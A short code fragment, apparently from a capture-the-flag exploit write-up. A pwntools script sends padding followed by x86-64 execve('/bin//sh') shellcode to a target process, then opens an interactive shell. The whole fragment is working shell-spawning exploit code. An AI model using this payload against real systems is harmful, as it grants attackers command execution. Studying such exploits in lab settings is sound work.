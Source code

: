   ```py
   pause()
   # shellcode = b"a"*0x1a +         b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
   shellcode = b"a"*0x1a + b'\x89\xcc\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
   p.send(shellcode)
   
   pause()
   p.interactive()
   ```

   

